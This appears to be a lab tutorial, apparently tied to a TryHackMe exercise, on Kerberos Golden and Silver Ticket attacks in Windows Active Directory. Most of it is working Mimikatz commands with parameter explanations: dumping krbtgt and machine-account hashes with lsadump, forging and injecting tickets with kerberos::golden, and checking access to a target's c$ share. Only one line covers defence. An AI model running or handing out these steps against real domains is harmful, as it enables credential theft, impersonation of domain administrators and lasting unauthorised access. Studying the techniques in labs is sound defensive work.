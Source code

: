 In the context of Windows Active Directory (AD) attacks, Golden Tickets and Silver Tickets are two powerful attack techniques that leverage Kerberos authentication to gain unauthorized access and maintain persistence in a domain.
Golden Tickets

> What is a Golden Ticket?

A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user, including domain administrators, in the AD environment. This ticket is generated using the Kerberos service account's password hash of **krbtgt** account.

> How it Works?

The krbtgt account is a special account in AD that is responsible for encrypting all TGTs. If an attacker compromises a domain controller or otherwise gains access to the krbtgt account hash, they can create a Golden Ticket. With this ticket, the attacker can **request access to any service within the domain**, essentially having unrestricted access.<br>
To perform this attack we need the following:

1- The krbtgt account hash.
```
lsadump::lsa /patch
```
2- The domain name.
```
Get-ADDomain
```
3- the domain SID.
```
(Get-ADDomain).DomainSID
```
Now that we have all the required information, we can relaunch Mimikatz:
```
mimikatz # kerberos::golden /admin:AnyName /domain:<DomainName> /id:500 /sid:<DomainSID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
> /admin - The username we want to impersonate. This does not have to be a valid user.<br>
> /domain - The FQDN of the domain we want to generate the ticket for.<br>
> /id -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.<br>
> /sid -The SID of the domain we want to generate the ticket for.<br>
> /krbtgt -The NTLM hash of the KRBTGT account.<br>
> /endin - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)<br>
> /renewmax -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)<br>
> /ptt - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.<br>

Even if the golden ticket has an incredibly long time, the blue team can still defend against this by simply rotating the KRBTGT password twice.<br>

**Silver Tickets**

> What is a Silver Ticket?

A Silver Ticket is a forged Kerberos Ticket Granting Service (TGS) ticket that allows an attacker to **access a specific service** or resource on a server without needing to interact with the domain controller.

> How it Works:

Silver Tickets are created using the password hash of a service account (such as HTTP, CIFS, etc.). The attacker forges a service ticket that grants them access to the specific service tied to that account. This ticket is then presented directly to the service, bypassing the need to go through the domain controller.

```
mimikatz # kerberos::golden /admin:AnyName /domain:<DomainName> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
WE can get the server hostname and the NTML hash of the machine account of the target using **mimikatz**:
```
lsadump::lsa /patch
```
> The $ indicates that it is a machine account.

We can verify that the silver ticket is working by running the dir command against the target machine (ex: THMserver1):
```
dir \\THMserver1.<DomainName>\c$\
```


